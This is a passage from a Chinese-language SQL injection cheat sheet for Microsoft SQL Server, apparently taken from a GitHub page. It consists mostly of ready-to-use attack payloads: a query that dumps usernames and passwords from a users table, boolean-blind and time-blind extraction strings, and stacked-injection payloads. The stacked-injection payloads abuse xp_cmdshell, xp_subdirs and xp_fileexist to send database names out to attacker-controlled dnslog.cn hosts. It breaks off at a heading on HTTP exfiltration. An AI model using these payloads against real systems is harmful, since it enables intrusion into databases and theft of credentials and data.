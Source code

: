 4. 脱库

   ```
   ?id=1' and (select quotename(username),':',quotename(password) from users for xml path)>0--
   ```

## 布尔盲注

```
?id=1' and substring((select top 1 name from sys.databases where name not in(select top 0 name from sys.databases)),1,1)='m'--
?id=1' and ascii(substring((select top 1 name from sys.databases where name not in(select top 0 name from sys.databases)),1,1))=109--
```

## 时间盲注

```
id=1' if(substring((select top 1 name from sys.databases where name not in(select top 0 name from sys.databases)),1,1)='m') waitfor delay '0:0:5'--
?id=1' if(ascii(substring((select top 1 name from sys.databases where name not in(select top 0 name from sys.databases)),1,1))=109) waitfor delay '0:0:5'--
```

## 数据外带

### DNS数据外带

当注入点仅存在盲注时，使用sqlmap出数据太慢，使用数据外带加速出数据

> 数据外带条件：网站存在对鞋注入

1. 利用xp_cmdshell扩展存储过程 指定ping dnslog命令带出数据
2. 利用xp_subdirs，xp_dirtree，xp_fileexist 使用unc路径判断文件发起请求带出数据
3. `declare @a varchar(8000);`#声明一个变量a，字符类型为varchar(8000)
4. `set @a=db_name();`#指定变量绑定一个mmsql函数
5. `exec('master..xp_cmdshell "ping.exe ' +@a+ '.gddxi9.dnslog.cn -n 1"')--` #引用变量拼接到xp_cmdshell执行语句中带出数据
6. exec('master..xp_cmdshell "ping.exe ' %2b@a%2b '.gddxi9.dnslog.cn -n 1"')--

```
?id=1';declare %40a varchar(8000);set %40a=db_name();exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.uos3zg.dnslog.cn -n 1"')-- #堆叠注入使用扩展存储过程进行数据外带
?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B@a%2B'.3n8hen.dnslog.cn\\a"')--
?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_fileexist "//'%2B@a%2B'.7wb9ur.dnslog.cn\\a" ')-- 
?id=1';declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_fileexist "//'%2B@a%2B'.e0cwlo.dnslog.cn\\a" ')-- #堆叠注入使用扩展存储过程进行数据外带
```

### HTTP数据外带

利用xp_cmdshell 执行powershell命令发起http请求
